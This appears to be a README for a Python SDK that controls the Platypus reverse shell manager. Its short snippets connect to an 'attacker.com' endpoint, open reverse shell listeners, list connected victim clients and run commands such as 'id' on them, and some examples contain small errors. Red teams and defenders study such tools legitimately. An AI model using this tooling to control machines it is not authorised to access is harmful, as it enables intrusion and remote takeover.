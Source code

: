 # Platypus-Python

Python SDK for reverse shell sessions manager [Platypus v1.3.1](https://github.com/WangYihang/Platypus)

## Install

```bash
pip install platypus-python
```

## Usage

### Connect to Platypus endpoint
```python
import platypus_python as pp

p = pp.Platypus("attacker.com", 7331)
```

### Create a reverse shell server

```python
server = p.create_server("0.0.0.0", 13339)
```

### Stop a reverse shell server

```python
server = servers[0]
server.delete()
```

### Get all available listening servers

```python
servers = p.get_servers()
for server in servers():
    print(server)
```


### Get all online Clients of a server

```python
server = servers[0]
clients = server.get_clients()
for client in clients:
    print(client)
```

### Execute a command on a client

```python
client = clients[0]
client.system("id")
```

